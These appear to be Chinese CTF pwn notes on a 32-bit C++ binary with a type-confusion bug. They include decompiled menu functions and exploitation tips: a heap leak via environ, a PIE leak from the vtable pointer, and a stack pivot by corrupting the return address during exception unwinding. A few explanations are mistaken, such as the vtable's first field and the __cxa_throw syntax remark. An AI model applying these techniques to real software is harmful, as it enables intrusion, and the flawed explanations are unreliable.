
# 参考
[https://www.cnblogs.com/winmt/articles/17018284.html](https://www.cnblogs.com/winmt/articles/17018284.html)
# 类型混淆
关于 C++ 中由虚函数引起的类型混淆漏洞，这类漏洞通常出现在处理多态对象时，尤其是在不当的类型转换过程中，或通过基类指针访问派生类成员时。一个典型的例子是：

假设有一个基类 `Base` 和两个派生类 `DerivedA` 和 `DerivedB`，它们都重写了基类的虚函数 `doSomething()`。

```cpp
class Base {
public:
    virtual ~Base() {}
    virtual void doSomething() = 0;
};

class DerivedA : public Base {
public:
    void doSomething() override {
        // 实现A
    }
};

class DerivedB : public Base {
public:
    void doSomething() override {
        // 实现B
    }
};
```

如果程序中某处维护了一个基类指针，但该指针实际指向一个派生类对象，而后面的代码错误地把它当作另一个派生类，就可能导致类型混淆漏洞：

```cpp
Base* basePtr = new DerivedA();
// ... 在某些情况下，basePtr 被误认为指向 DerivedB
DerivedB* derivedBPtr = static_cast<DerivedB*>(basePtr); // 错误的类型转换
derivedBPtr->doSomething(); // 如果 basePtr 不是指向 DerivedB 的实例，这里会引发未定义行为
```

在这种情况下，如果 `basePtr` 实际指向一个 `DerivedA` 的实例，但代码强行把它转换为 `DerivedB*` 并调用 `doSomething()`，就会发生类型混淆，这可能导致程序崩溃，或引发缓冲区溢出、非法访问等安全漏洞。
#  异常处理的栈展开机制
C++ 的异常处理栈展开机制保证了当异常发生时，程序能够自动反向遍历调用栈，从而正确析构每次函数调用中创建的每一个局部自动对象（例如在函数内部定义、未显式分配内存的对象）。这意味着即使程序因异常而提前终止某个函数的执行，该函数的局部资源也会像正常函数返回时一样被释放，避免资源泄漏。下面这个简化的例子说明了这一点：

```cpp
#include <iostream>
#include <stdexcept>

class Resource {
public:
    Resource(const char* name) {
        std::cout << "Acquiring resource: " << name << std::endl;
    }
    ~Resource() {
        std::cout << "Releasing resource" << std::endl;
    }
};

void functionB() {
    Resource r("in functionB");
    std::cout << "Executing functionB" << std::endl;
    // 模拟异常发生
    throw std::runtime_error("Something went wrong in functionB");
}

void functionA() {
    Resource r("in functionA");
    std::cout << "Executing functionA" << std::endl;
    functionB();
    std::cout << "This line won't be executed due to exception in functionB" << std::endl;
}

int main() {
    try {
        std::cout << "Starting main" << std::endl;
        functionA();
        std::cout << "This line won't be executed due to exception in functionA" << std::endl;
    } catch(const std::exception& e) {
        std::cout << "Caught in main: " << e.what() << std::endl;
    }
    std::cout << "Ending main" << std::endl;
    return 0;
}
```


1. **资源的创建与使用**：`main` 函数调用 `functionA`，其中创建了一个 `Resource` 对象 `r`（标记为 "in functionA"）。然后 `functionA` 调用 `functionB`，其中又创建了另一个 `Resource` 对象 `r`（标记为 "in functionB"）。

2. **抛出异常**：在 `functionB` 中，通过抛出一个 `std::runtime_error` 来模拟异常。

3. **栈展开**：异常被抛出时，C++ 的异常处理机制启动，从 `functionB` 开始反向遍历调用栈。首先，`functionB` 中的局部对象（"in functionB" 的 `Resource` 实例）被析构，打印 "Releasing resource"。然后控制权返回到 `functionA`。

4. **继续展开与资源清理**：在 `functionA` 中，尽管它并不处理这个异常（而是把它继续传给 `main`），`functionA` 的局部对象（"in functionA" 的 `Resource` 实例）也会在 `functionA` 退出前被析构，再次打印 "Releasing resource"。这是因为栈展开机制保证了即使在异常情况下，局部对象的析构函数也会被调用。

5. **异常处理与程序继续**：最后，异常被 `main` 中的 `catch` 块捕获，打印出异常信息。尽管一些原本计划执行的代码因异常而未被执行，但所有创建的资源都被妥善清理，程序安全地继续运行直到结束，打印 "Ending main"。


#  虚表与类的恢复

### 假想的程序结构

假设有一个 C++ 程序，其核心逻辑围绕几种不同类型的动物（如 `Animal`、`Dog`、`Cat`）及它们的叫声展开。每个类都有一个虚函数 `makeSound()`，用于输出动物的叫声。

```cpp
class Animal {
public:
    virtual ~Animal() {}
    virtual void makeSound() { std::cout << "Some generic animal sound" << std::endl; }
};

class Dog : public Animal {
public:
    void makeSound() override { std::cout << "Woof!" << std::endl; }
};

class Cat : public Animal {
public:
    void makeSound() override { std::cout << "Meow!" << std::endl; }
};
```

### 逆向工程场景

在逆向工程环境中，我们只有这个程序编译后的二进制形式，所有类名和函数名都被编译器优化或混淆了，几乎无法直接阅读代码。我们的目标是理解这个程序如何通过多态处理不同动物的叫声。

### 逐步分析

1. **识别对象实例**：首先，通过观察程序的运行时行为或数据段，寻找可能是类实例的数据结构。在这些实例中，通常在开头附近有一个指向对应虚函数表（vtable）的指针。

2. **解析虚表**：找到虚表的地址后，就可以检查这个表中存储的函数指针。每个指针对应一个虚函数。虽然没有函数名，但通过分析这些函数的代码（例如查看函数内部的字符串输出），我们可以推断它们的功能。例如，一个输出 "Meow!" 的函数很可能对应 `Cat` 类的 `makeSound` 方法。

3. **理解继承关系**：通过比较不同类实例的虚表，可以找到共享的函数地址（这些通常是基类的虚函数）。如果存在额外的函数指针（而这些函数在基类的虚表中并不存在），就说明子类重写了虚函数。例如，如果 `Dog` 实例的虚表中有一个与 `Animal` 实例不同的 `makeSound` 指针，我们就可以推断 `Dog` 类重写了 `makeSound`。


# idabug


然后就可以成功反汇编了

[https://hex-rays.com/blog/igors-tip-of-the-week-151-fixing-function-frame-is-wrong/](https://hex-rays.com/blog/igors-tip-of-the-week-151-fixing-function-frame-is-wrong/)



# 保护检查


沙箱禁用了 execve



# 寻找虚表
按 alt+t 搜索 vtable 即可



 两个 C++ 类 `Class_two` 和 `Class_one` 的虚函数表（vtable）和类型信息（typeinfo）。

- `off_4E0C  ` 是 `Class_two` 类的虚函数表
  - 第一个 `dd 0` 是占位符；在实际对象的虚表中，这里会存储对象的地址（即 `this` 指针）。
  - `dd offset _ZTI9Class_two` 指向 `Class_two` 的类型信息。
  - 从 `off_4E0C` 开始的几个 `dd` 指向该类的虚函数实现，例如 `sub_2570`、`sub_25CC` 等。

- `off_4E24` 同样是 `Class_one` 类的虚函数表。

- `_ZTI9Class_two` 和 `_ZTI9Class_one` 分别表示 `Class_two` 和 `Class_one` 的类型信息，包含运行时类型识别（RTTI）所需的数据：
  - 每个 `_ZTI` 记录的第一个 `dd` 指向 C++ ABI 中定义的 typeinfo 基类的偏移加 8（通常指向完整的 typeinfo 结构）。
  - 第二个 `dd` 指向类名字符串（例如 `_ZTS9Class_two`），用于获取类型名称。
  - 在 `_ZTI9Class_two` 中，第三个 `dd` 指向 `_ZTI9Class_one`，表示 `Class_two` 继承自 `Class_one`。


根据 typeinfo 部分，classtwo 是 classone 的子类
#  strdup
`strdup(s)` 是一个 C 库函数，用于创建字符串 `s` 的副本，动态分配内存来存储这个副本。该函数的主要特性和工作流程如下：

1. **复制字符串**：`strdup` 首先计算字符串 `s` 的长度（包括结尾的空字符 `\0`）。strdup 调用 strlen 获取长度，所以输入内容实际上会被 \x00 截断。

2. **分配内存**：然后使用 `malloc` 函数分配恰好足够存储该字符串及其结束符的内存。
3. **复制内容**：接着把原字符串的内容复制到新分配的内存中。
4. **返回指针**：最后，`strdup` 返回指向新复制字符串的指针。如果内存分配失败，`strdup` 返回 `NULL`。

由于 `strdup` 使用 `malloc` 分配内存，使用完这个字符串后，必须调用 `free` 函数释放这块内存，以避免内存泄漏。示例代码如下：

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char original[] = "Hello, World!";
    char *copy;

    copy = strdup(original);

    if (copy != NULL) {
        printf("Copied string: %s\n", copy);
        free(copy);  // 释放复制的字符串所占用的内存
    } else {
        printf("Memory allocation failed.\n");
    }

    return 0;
}
```

在这个例子中，`original` 字符串的内容被复制到一块新的内存区域，其地址由 `copy` 指针保存。程序结束时，通过 `free(copy)` 释放这块动态分配的内存。

# c_str()
在 C++ 中，std::string 类提供了 .c_str() 成员函数，用于获取表示字符串内容的 C 风格字符数组（char *）。该函数不接受参数，返回一个指向常量字符数组的指针，该数组包含 std::string 对象的内容，包括结尾的空字符 \0。
#  alloca
假设我们正在编写一个函数，需要在栈上创建一个变长的字符串缓冲区，而这个字符串最终需要以 C 风格字符串的形式存在（以空字符 `\0` 结尾）。

```c
#include <stdio.h>

void processString(char* input) {
    // 计算input字符串的实际长度（不包括末尾的'\0'）
    size_t actualLength = strlen(input);
    
    // 使用alloca分配比实际需要多10个字节的内存
    // 这10个字节中，1个用于存储字符串结束符'\0'，剩余9个作为额外缓冲
    char* buffer = (char*)alloca(actualLength + 10);
    
    // 复制输入字符串到新缓冲区，并确保以'\0'结尾
    strncpy(buffer, input, actualLength);
    buffer[actualLength] = '\0';
    
    // 现在buffer是一个安全的C字符串，可以进行各种操作
    printf("Processed string: %s\n", buffer);
    
    // 注意：当processString函数返回时，buffer所指向的内存会自动被释放
}

int main() {
    processString("Hello, World!");
    return 0;
}
```

首先计算输入字符串 `input` 的实际长度（不包括结尾的 `\0`），然后使用 `alloca` 分配比这个长度多 10 个字节的内存。这样做有两个目的：一是确保有足够的空间存储字符串本身的 `\0` 结束符，二是预留一些额外的缓冲空间，可能用于后续的字符串操作，或作为简单的边界防护以降低缓冲区溢出的风险。当 `processString` 函数执行完毕返回时，`alloca` 分配的内存会自动释放，无需手动调用 `free` 之类的函数。


# 异常



1. **`__cxa_allocate_exception(4u)`**：这个函数用于动态分配内存来存储异常对象。参数 `4u` 表示需要分配 4 个字节的内存（一个字节等于 8 位，所以 4 字节等于 32 位）。这通常足以存储一个表示异常具体信息的简单整数值或指针。分配的内存用于存储异常实例。

2. **`*exception = -1;`**：这行代码把新分配的异常对象内存地址所指向的值设置为 `-1`。这实际上是在初始化异常对象；`-1` 可以看作一个错误码或异常状态标志，其具体含义取决于程序的设计。这表明发生了某种错误状态。

3. **`__cxa_throw(exception, (struct type_info *)&`typeinfo for'int', 0);`**：
   - **`exception`**：这是第一步中分配并初始化的异常对象的指针，它将作为异常被抛出。
   - **`(struct type_info *)&`typeinfo for'int'`**：这部分有问题，因为它包含一个语法错误（使用了不正确的转义字符和字符串字面量）。正常情况下，这里应该是一个指向描述异常类型的 `type_info` 结构的指针。`type_info` 结构包含类型的运行时信息，这对于正确处理异常至关重要。正确的用法应该是指向某种类型（如 `int`）的 `type_info` 的指针，而不应包含反引号或字符串字面量。一个正确的形式可能类似于 `(struct type_info *)typeid(int).name`，不过在实践中，直接使用正确的类型信息指针更为常见，具体取决于编译器和运行时库。
   - **`0`**：这个参数是保留参数，在标准 C++ 异常处理中并未使用；通常传入 `nullptr` 或 `0`。

以上对应 C++ 源码中的 throw 部分


#  逆向
## main

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  int v4; // eax
  int v5; // [esp-Ch] [ebp-30h]
  int v6; // [esp-8h] [ebp-2Ch]
  int v7; // [esp-4h] [ebp-28h]
  int v8[2]; // [esp+0h] [ebp-24h] BYREF
  unsigned int v9; // [esp+8h] [ebp-1Ch]
  int v10; // [esp+Ch] [ebp-18h]
  int v11; // [esp+10h] [ebp-14h]
  int *p_argc; // [esp+14h] [ebp-10h]

  p_argc = &argc;
  v9 = __readgsdword(0x14u);
  inital();
  while ( 1 )
  {
    menu();
    std::istream::operator>>(&std::cin, v8);
    if ( v8[0] == 4 )
      break;
    if ( v8[0] > 4 )
      goto LABEL_13;
    switch ( v8[0] )
    {
      case 3:
        display();
        break;
      case 1:
        create();
        break;
      case 2:
        update();
        break;
      default:
LABEL_13:
        v4 = std::operator<<<std::char_traits<char>>(&std::cout, "[Error] Invild choice.");
        std::ostream::operator<<(
          v4,
          &std::endl<char,std::char_traits<char>>,
          v5,
          v6,
          v7,
          v8[0],
          v8[1],
          v9,
          v10,
          v11,
          p_argc);
        break;
    }
  }
  std::operator<<<std::char_traits<char>>(&std::cout, "Bye~");
  result = 0;
  if ( __readgsdword(0x14u) != v9 )
    sub_26D0();
  return result;
}
```
## display

```cpp
unsigned int display()
{
  int v0; // eax
  int v1; // eax
  unsigned int result; // eax
  int v3; // [esp-8h] [ebp-20h]
  int v4; // [esp-8h] [ebp-20h]
  int v5; // [esp-4h] [ebp-1Ch]
  int v6; // [esp-4h] [ebp-1Ch]
  int v7; // [esp+0h] [ebp-18h]
  int v8; // [esp+0h] [ebp-18h]
  int v9; // [esp+4h] [ebp-14h]
  int v10; // [esp+4h] [ebp-14h]
  unsigned int index; // [esp+8h] [ebp-10h] BYREF
  unsigned int v12; // [esp+Ch] [ebp-Ch]
  int v13; // [esp+10h] [ebp-8h]
  int v14; // [esp+14h] [ebp-4h]
  int savedregs; // [esp+18h] [ebp+0h]

  v12 = __readgsdword(0x14u);
  v0 = std::operator<<<std::char_traits<char>>(&std::cout, "Which one do you want to display?");
  std::ostream::operator<<(v0, &std::endl<char,std::char_traits<char>>, v3, v5, v7, v9, index, v12, v13, v14, savedregs);
  std::istream::operator>>(&std::cin, &index);
  if ( index < max_index )
  {
    show((struct Class_two *)chunk_array[index]);
  }
  else
  {
    v1 = std::operator<<<std::char_traits<char>>(&std::cout, "[Error] No such one.");
    std::ostream::operator<<(
      v1,
      &std::endl<char,std::char_traits<char>>,
      v4,
      v6,
      v8,
      v10,
      index,
      v12,
      v13,
      v14,
      savedregs);
  }
  result = __readgsdword(0x14u) ^ v12;
  if ( result )
    sub_26D0();
  return result;
}

unsigned int __cdecl show(_DWORD *chunk_c)
{
  int v1; // eax
  unsigned int v2; // eax
  void *v3; // esp
  const char *content; // eax
  size_t v5; // eax
  _DWORD *exception; // eax
  int v7; // eax
  unsigned int result; // eax
  int v9; // [esp-8h] [ebp-30h]
  int v10; // [esp-4h] [ebp-2Ch]
  _DWORD out_con_ptr_1[3]; // [esp+0h] [ebp-28h] BYREF
  _DWORD *v12; // [esp+Ch] [ebp-1Ch]
  int v13; // [esp+10h] [ebp-18h]
  int v14; // [esp+14h] [ebp-14h]
  char *out_con_ptr; // [esp+18h] [ebp-10h]
  unsigned int v16; // [esp+1Ch] [ebp-Ch]

  v12 = chunk_c;
  v16 = __readgsdword(0x14u);
  v1 = (*(int (__cdecl **)(_DWORD *))(*chunk_c + 12))(chunk_c);// 根据虚表调用函数 下同
  v12[1] = v1 + 10;
  v14 = v12[1] - 1;
  v2 = 16 * ((v14 + 16) / 0x10u);
  while ( out_con_ptr_1 != (_DWORD *)((char *)out_con_ptr_1 - ((16 * ((v14 + 16) / 0x10u)) & 0xFFFFF000)) )
    ;
  v3 = alloca(v2 & 0xFFF);
  if ( (v2 & 0xFFF) != 0 )
    *(_DWORD *)((char *)&out_con_ptr_1[-1] + (v2 & 0xFFF)) = *(_DWORD *)((char *)&out_con_ptr_1[-1] + (v2 & 0xFFF));
  out_con_ptr = (char *)out_con_ptr_1;
  strcpy((char *)out_con_ptr_1, "Content: ");
  content = (const char *)(*(int (__cdecl **)(_DWORD *))(*v12 + 8))(v12);
  strcat(out_con_ptr, content);
  v5 = strlen(out_con_ptr);
  if ( v5 > v12[1] - 1 )
  {
    exception = __cxa_allocate_exception(4u);
    *exception = -1;
    __cxa_throw(exception, (struct type_info *)&`typeinfo for'int, 0);
  }
  v7 = std::operator<<<std::char_traits<char>>(&std::cout, out_con_ptr);
  std::ostream::operator<<(
    v7,
    &std::endl<char,std::char_traits<char>>,
    v9,
    v10,
    out_con_ptr_1[0],
    out_con_ptr_1[1],
    out_con_ptr_1[2],
    v12,
    v13,
    v14,
    out_con_ptr);
  result = __readgsdword(0x14u) ^ v16;
  if ( result )
    sub_26D0();
  return result;
}
```

## update

```c
unsigned int update()
{
  int v0; // eax
  int v1; // eax
  int v2; // eax
  int chunk; // edi
  char *str; // eax
  unsigned int result; // eax
  int v6; // [esp-8h] [ebp-40h]
  int v7; // [esp-8h] [ebp-40h]
  int v8; // [esp-4h] [ebp-3Ch]
  int v9; // [esp-4h] [ebp-3Ch]
  unsigned int index; // [esp+0h] [ebp-38h] BYREF
  int v11; // [esp+4h] [ebp-34h] BYREF
  int v12; // [esp+8h] [ebp-30h]
  int v13; // [esp+Ch] [ebp-2Ch]
  int v14; // [esp+10h] [ebp-28h]
  int v15; // [esp+14h] [ebp-24h]
  int v16; // [esp+18h] [ebp-20h]
  unsigned int v17; // [esp+1Ch] [ebp-1Ch]

  v17 = __readgsdword(0x14u);
  v0 = std::operator<<<std::char_traits<char>>(&std::cout, "Which one do you want to update?");
  std::ostream::operator<<(v0, &std::endl<char,std::char_traits<char>>, v6, v8, index, v11, v12, v13, v14, v15, v16);
  std::istream::operator>>(&std::cin, &index);
  if ( index < max_index )
  {
    std::string::basic_string(&v11);
    std::operator<<<std::char_traits<char>>(&std::cout, "Please enter the new content >> ");
    std::operator>><char>(&std::cin, &v11);
    if ( (unsigned int)std::string::size((int)&v11) <= 0xFF )
    {
      chunk = chunk_array[index];
      str = (char *)std::string::c_str((int)&v11);
      upda(chunk, str);
      v2 = std::operator<<<std::char_traits<char>>(&std::cout, "[Success] Updated!");
    }
    else
    {
      v2 = std::operator<<<std::char_traits<char>>(&std::cout, "[Error] Content is too long.");
    }
    std::ostream::operator<<(v2, &std::endl<char,std::char_traits<char>>, v7, v9, index, v11, v12, v13, v14, v15, v16);
    std::string::~string(&v11);
  }
  else
  {
    v1 = std::operator<<<std::char_traits<char>>(&std::cout, "[Error] No such one.");
    std::ostream::operator<<(v1, &std::endl<char,std::char_traits<char>>, v7, v9, index, v11, v12, v13, v14, v15, v16);
  }
  result = __readgsdword(0x14u) ^ v17;
  if ( result )
    sub_26D0();
  return result;
}
```
update 方法也一样，存在类型混淆漏洞：无论是 type 0 还是 1，它都直接 free 偏移 8 字节处的值，然后重新设置偏移 8 字节处的值和偏移 4 字节处的值
## create

```cpp
unsigned int create()
{
  int v0; // eax
  int v1; // eax
  int v2; // eax
  int v3; // eax
  struct Class_two *chunk2_c; // edi
  char *str; // edi
  struct Class_one *chunk1_c; // ebx
  int v7; // eax
  unsigned int result; // eax
  int v9; // [esp-8h] [ebp-50h]
  int v10; // [esp-8h] [ebp-50h]
  int v11; // [esp-4h] [ebp-4Ch]
  int v12; // [esp-4h] [ebp-4Ch]
  int v13; // [esp+0h] [ebp-48h]
  int v14; // [esp+0h] [ebp-48h]
  int v15; // [esp+4h] [ebp-44h]
  int v16; // [esp+4h] [ebp-44h]
  int v17; // [esp+8h] [ebp-40h]
  int v18; // [esp+8h] [ebp-40h]
  char *s; // [esp+Ch] [ebp-3Ch]
  char *sa; // [esp+Ch] [ebp-3Ch]
  unsigned int type; // [esp+10h] [ebp-38h] BYREF
  int content; // [esp+14h] [ebp-34h] BYREF
  int v23; // [esp+18h] [ebp-30h]
  unsigned int v24; // [esp+2Ch] [ebp-1Ch]

  v24 = __readgsdword(0x14u);
  if ( max_index <= 9 )
  {
    v1 = std::operator<<<std::char_traits<char>>(&std::cout, "Which type do you want to create?");
    std::ostream::operator<<(v1, &std::endl<char,std::char_traits<char>>, v9, v11, v13, v15, v17, s, type, content, v23);
    std::istream::operator>>(&std::cin, &type);
    if ( type < 2 )
    {
      std::string::basic_string(&content);
      std::operator<<<std::char_traits<char>>(&std::cout, "Please enter the content >> ");
      std::operator>><char>(&std::cin, &content);
      if ( (unsigned int)std::string::size((int)&content) <= 0xFF )// 限制content长度
      {
        if ( type == 1 )
        {
          sa = (char *)std::string::c_str((int)&content);
          chunk2_c = (struct Class_two *)operator new(0xCu);
          sub_24D2(chunk2_c, sa);               // 构造函数
          chunk_array[max_index] = (int)chunk2_c;
        }
        else
        {
          str = (char *)std::string::c_str((int)&content);
          chunk1_c = (struct Class_one *)operator new(0xCu);
          sub_2180(chunk1_c, str);
          chunk_array[max_index] = (int)chunk1_c;
        }
        ++max_index;
        v7 = std::operator<<<std::char_traits<char>>(&std::cout, "[Success] Created!");
        std::ostream::operator<<(
          v7,
          &std::endl<char,std::char_traits<char>>,
          v10,
          v12,
          v14,
          v16,
          v18,
          sa,
          type,
          content,
          v23);
      }
      else
      {
        v3 = std::operator<<<std::char_traits<char>>(&std::cout, "[Error] Content is too long.");
        std::ostream::operator<<(
          v3,
          &std::endl<char,std::char_traits<char>>,
          v10,
          v12,
          v14,
          v16,
          v18,
          sa,
          type,
          content,
          v23);
      }
      std::string::~string(&content);
    }
    else
    {
      v2 = std::operator<<<std::char_traits<char>>(&std::cout, "[Error] No such type.");
      std::ostream::operator<<(
        v2,
        &std::endl<char,std::char_traits<char>>,
        v10,
        v12,
        v14,
        v16,
        v18,
        sa,
        type,
        content,
        v23);
    }
  }
  else
  {
    v0 = std::operator<<<std::char_traits<char>>(&std::cout, "[Error] No spare space.");
    std::ostream::operator<<(v0, &std::endl<char,std::char_traits<char>>, v9, v11, v13, v15, v17, s, type, content, v23);
  }
  result = __readgsdword(0x14u) ^ v24;
  if ( result )
    sub_26D0();
  return result;
}
```
创建是根据所选的 type（0 和 1）进行的


#  新知识
1. 可以利用 libc 地址来泄漏堆地址；environ 变量在 libc 中，在它下面有一个位于堆上的变量



2.  因为堆中对象的前四个字节作为虚表的地址，而虚表在 PIE 中，既然我们知道了堆地址，就可以从中泄漏出 PIE 地址

3. 修改 ret 地址后，unwind_resume 会跳到该 ret 地址对应函数的 catch 块，然后 _Unwind_RaiseException 最终会把原本存放在 ebp 上方的值赋给 esi（所以可以通过修改 ebp 上方的内容来控制 esi）。再配合覆盖 ebp，当执行到异常处理函数时，被覆盖的 rbp 会被恢复为当前的 rbp，然后跳转到 leave; ret 实现栈迁移
   覆盖后

进入 _Unwind_RaiseException 后，ebp-8 的位置存放着原来的 rbp 值


进入 _cxa_begin_catch 之前，esi 被赋值给 ebx
